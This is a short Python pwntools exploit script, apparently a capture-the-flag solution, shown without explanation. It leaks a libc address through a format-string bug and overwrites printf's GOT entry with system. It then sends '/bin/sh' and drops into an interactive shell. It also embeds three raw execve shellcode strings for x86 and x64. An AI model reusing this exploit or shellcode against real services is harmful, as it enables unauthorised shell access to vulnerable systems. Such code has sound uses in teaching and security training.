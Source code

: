 ```python
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

sla("Can you find the magic word?",'%35$p')
p.recvuntil("0x")
libc_base = int(p.recv(8),16)-libc.sym['__libc_start_main']-241
lg('libc_base',libc_base)
printf_got = elf.got['printf']
system = libc_base+libc.sym['system']
str_bin_sh = libc.search("/bin/sh").next()+libc_base
lg("printf_got",printf_got)
lg('system',system)
lg('str_bin_sh',str_bin_sh)
systeml = system&0xff
systemh = (system>>8)&0xff
systemb = (system>>16)&0xff
lg("systeml",systeml)
lg('systemh',systemh)

pay = fmtstr_payload(6,{printf_got:system}, numbwritten=0, write_size='byte')
# dbg()
sl(pay)

sl(p32(str_bin_sh))
p.interactive()
```

